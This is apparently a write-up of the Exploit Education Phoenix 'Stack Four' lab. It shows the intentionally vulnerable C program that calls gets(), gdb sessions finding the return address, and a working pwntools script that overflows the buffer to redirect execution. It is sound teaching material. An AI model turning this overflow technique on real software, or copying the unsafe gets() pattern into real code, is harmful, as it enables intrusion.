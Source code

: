 ```yaml
---
title: "Phoenix - Stack Four"
classes: wide
header:
  teaser: /assets/images/binary-exploitation/exploit-education/exploit-education.png
ribbon: red
description: "The goal of this level is to overwrite the return address of **start_level** function to return to **complete_level** function instead of **main**.
First we get the address of **complete_level** function:..."
categories:
  - Binary Exploitation
---
```

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

The goal of this level is to overwrite the return address of **start_level** function to return to **complete_level** function instead of **main**.

First we get the address of **complete_level** function:

```
$ gdb -q /opt/phoenix/amd64/stack-four
Reading symbols from /opt/phoenix/amd64/stack-four...(no debugging symbols found)...done.

gef➤  print complete_level 
$1 = {<text variable, no debug info>} 0x40061d <complete_level>
```

So we must overwrite **RIP** with the address  **0x40061d**.

```
gef➤  disassemble start_level 
Dump of assembler code for function start_level:
   0x0000000000400635 <+0>:	push   rbp
   0x0000000000400636 <+1>:	mov    rbp,rsp
   0x0000000000400639 <+4>:	sub    rsp,0x50
   0x000000000040063d <+8>:	lea    rax,[rbp-0x50]
   0x0000000000400641 <+12>:	mov    rdi,rax
   0x0000000000400644 <+15>:	call   0x400470 <gets@plt>
   0x0000000000400649 <+20>:	mov    rax,QWORD PTR [rbp+0x8]
   .....
```

So to overwrite **RIP** we must enter (0x50 junk + 8 bytes for RBP + address of **complete_level**).

```
gef➤  b *0x0000000000400649
Breakpoint 1 at 0x400649

gef➤  r <<< $(python solve.py)
Starting program: /opt/phoenix/amd64/stack-four <<< $(python solve.py)
Welcome to phoenix/stack-four, brought to you by https://exploit.education
Breakpoint 1, 0x0000000000400649 in start_level ()
......

gef➤  info registers rbp
rbp            0x7fffffffe630      0x7fffffffe630

gef➤  x/12xg $rsp
0x7fffffffe5e0:	0x4141414141414141	0x4141414141414141
0x7fffffffe5f0:	0x4141414141414141	0x4141414141414141
0x7fffffffe600:	0x4141414141414141	0x4141414141414141
0x7fffffffe610:	0x4141414141414141	0x4141414141414141
0x7fffffffe620:	0x4141414141414141	0x4141414141414141
0x7fffffffe630:	0x4242424242424242	0x000000000040061d
```

Here we can see that **RBP** was overwritten to  0x4242424242424242 and after it is the value of **RIP** 0x000000000040061d which is the address of **complete_level** function.

# Solution:

```python
# solve.py

from pwn import *

buff = ""
buff += 'A'*80			# junk
buff += 'BBBBBBBB'		# RBP value
buff += p64(0x40061d)		# RIP value

print(buff)
```

```
$ python solve.py | /opt/phoenix/amd64/stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x40061d
Congratulations, you've finished phoenix/stack-four :-) Well done!
```